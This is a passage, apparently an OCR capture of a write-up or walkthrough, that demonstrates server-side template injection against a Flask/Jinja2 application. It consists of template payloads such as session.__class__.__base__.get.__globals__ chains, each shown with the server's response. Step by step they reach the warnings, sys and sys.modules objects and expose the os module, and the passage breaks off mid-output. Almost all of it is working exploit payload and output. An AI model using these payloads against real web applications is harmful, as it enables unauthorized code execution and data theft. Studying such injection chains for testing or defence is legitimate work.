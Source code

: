 ```txt
'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 
'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 
'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 
'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': 
<class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D 
(i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': 
Copyright (c) 2001-2020 Python Software Foundation. All Rights Reserved. Copyright (c) 
2000 BeOpen.com. All Rights Reserved. Copyright (c) 1995-2001 Corporation for National 
Research Initiatives. All Rights Reserved. Copyright (c) 1991-1995 Stichting 
Mathematisch Centrum, Amsterdam. All Rights Reserved., 'credits': Thanks to CWI, CNRI, 
BeOpen.com, Zope Corporation and a cast of thousands for supporting Python development. 
See www.python.org for more information., 'license': Type license() to see the full 
license text, 'help': Type help() for interactive help, or help(object) for help about 
object.}, 'hashlib': <module 'hashlib' from '/usr/local/lib/python3.9/hashlib.py'>, 
'warnings': <module 'warnings' from '/usr/local/lib/python3.9/warnings.py'>, 'datetime': 
<class 'datetime.datetime'>, 'BadSignature': <class 'itsdangerous.exc.BadSignature'>, 
'URLSafeTimedSerializer': <class 'itsdangerous.url_safe.URLSafeTimedSerializer'>, 
'CallbackDict': <class 'werkzeug.datastructures.CallbackDict'>, 'collections_abc': 
<module 'collections.abc' from '/usr/local/lib/python3.9/collections/abc.py'>, 'is_ip': 
<function is_ip at 0x7fc672b933a0>, 'total_seconds': <function total_seconds at 
0x7fc672b94c10>, 'TaggedJSONSerializer': <class 'flask.json.tag.TaggedJSONSerializer'>, 
'SessionMixin': <class 'flask.sessions.SessionMixin'>, 'SecureCookieSession': <class 
'flask.sessions.SecureCookieSession'>, 'NullSession': <class 
'flask.sessions.NullSession'>, 'SessionInterface': <class 
'flask.sessions.SessionInterface'>, 'session_json_serializer': 
<flask.json.tag.TaggedJSONSerializer object at 0x7fc672bb5cd0>, 
'SecureCookieSessionInterface': <class 'flask.sessions.SecureCookieSessionInterface'>}!
```
- `{{session.__class__.__base__.get.__globals__['warnings']}}`   
```txt
Hello <module 'warnings' from '/usr/local/lib/python3.9/warnings.py'>!
```
- `{{session.__class__.__base__.get.__globals__['warnings']['sys']}}`   
```txt
Hello <module 'sys' (built-in)>! 
```
- `{{session.__class__.__base__.get.__globals__['warnings']['sys']['modules']}}`   
```txt
Hello {'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, 
'_frozen_importlib': <module 'importlib._bootstrap' (frozen)>, '_imp': <module '_imp' 
(built-in)>, '_thread': <module '_thread' (built-in)>, '_warnings': <module '_warnings' 
(built-in)>, '_weakref': <module '_weakref' (built-in)>, '_frozen_importlib_external': 
<module 'importlib._bootstrap_external' (frozen)>, 'posix': <module 'posix' (built-in)>, 
'_io': <module 'io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'time': 
<module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': 
<module '_codecs' (built-in)>, 'codecs': <module 'codecs' from 
'/usr/local/lib/python3.9/codecs.py'>, 'encodings.aliases': <module 'encodings.aliases' 
from '/usr/local/lib/python3.9/encodings/aliases.py'>, 'encodings': <module 'encodings' 
from '/usr/local/lib/python3.9/encodings/__init__.py'>, 'encodings.utf_8': <module 
'encodings.utf_8' from '/usr/local/lib/python3.9/encodings/utf_8.py'>, '_signal': 
<module '_signal' (built-in)>, 'encodings.latin_1': <module 'encodings.latin_1' from 
'/usr/local/lib/python3.9/encodings/latin_1.py'>, '_abc': <module '_abc' (built-in)>, 
'abc': <module 'abc' from '/usr/local/lib/python3.9/abc.py'>, 'io': <module 'io' from 
'/usr/local/lib/python3.9/io.py'>, '__main__': <module '__main__' from 
'/home/server.py'>, '_stat': <module '_stat' (built-in)>, 'stat': <module 'stat' from 
'/usr/local/lib/python3.9/stat.py'>, '_collections_abc': <module '_collections_abc' from 
'/usr/local/lib/python3.9/_collections_abc.py'>, 'genericpath': <module 'genericpath' 
from '/usr/local/lib/python3.9/genericpath.py'>, 'posixpath': <module 'posixpath' from 
'/usr/local/lib/python3.9/posixpath.py'>, 'os.path': <module 'posixpath' from 
'/usr/local/lib/python3.9/posixpath.py'>, 'os': <module 'os' from 
'/usr/local/lib/python3.9/os.py'>, '_sitebuiltins': <module '_sitebuiltins' from 
'/usr/local/lib/python3.9/_sitebuiltins.py'>, '_locale': <module '_locale' (built-in)>, 
'_bootlocale': <module '_bootlocale' from '/usr/local/lib/python3.9/_bootlocale.py'>, 
'site': <module 'site' from '/usr/local/lib/python3.9/site.py'>, 'types': <module 
```